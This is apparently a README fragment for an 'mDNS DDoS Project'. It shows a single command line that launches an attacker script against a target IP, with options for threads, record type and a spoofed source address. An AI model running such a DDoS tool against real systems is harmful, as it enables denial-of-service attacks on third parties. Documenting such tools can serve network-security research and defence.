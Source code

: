 # mDNS DDoS Project


```
python3 src/attacker/attacker.py -t $TARGET_IP -n $NUM_THREADS  -rr $RR_TYPE -i $SPOOFED_IP 
```

(Only -t (target)  is necessary)

